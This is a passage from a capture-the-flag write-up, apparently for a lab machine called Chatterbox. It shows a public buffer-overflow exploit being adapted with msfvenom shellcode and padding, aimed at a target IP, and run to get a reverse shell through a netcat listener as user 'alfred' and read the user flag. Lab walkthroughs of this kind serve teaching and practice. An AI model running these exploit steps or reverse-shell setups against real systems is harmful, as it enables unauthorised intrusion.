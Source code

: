 Note that the above command contains a long string of bad characters. If any of these characters are used in our shellcode it would break the code execution and probably crash the application on the target.

After generating our shellcode, msfvenom tells us that the payload size is 774 bytes. Could this be a problem, since the original payload size was 512 bytes?

In this case it is not an issue, since the exploit has been constructed in such a way as to automatically calculate the number of padding characters to add in after our payload as shown in the line of code below:

> p += buf + "A" \* (1152 - len(buf))

As long as our payload is less than 1152 bytes, we are good.

The only other change we need to make is to update the IP address of the target system as shown below:

> server\_address = ('10.10.10.74', 9256)

Let's start a netcat listener, and run the exploit against the target system:

```
└─$ python exploit_36025.py
---->{P00F}!
                  
```

In our listener, we get a shell as the user "alfred", and we can grab the user flag.

```
└─$ nc -nvlp 9999   
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.74.
Ncat: Connection from 10.10.10.74:49157.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred

C:\Windows\system32>cd c:\Users\Alfred\Desktop
cd c:\Users\Alfred\Desktop

c:\Users\Alfred\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of c:\Users\Alfred\Desktop

12/10/2017  06:50 PM    <DIR>          .
12/10/2017  06:50 PM    <DIR>          ..
01/14/2022  08:14 AM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)  19,490,947,072 bytes free

c:\Users\Alfred\Desktop>type user.txt
type user.txt
8def32a1819f04636aa6eca347cbbc29

c:\Users\Alfred\Desktop>

```
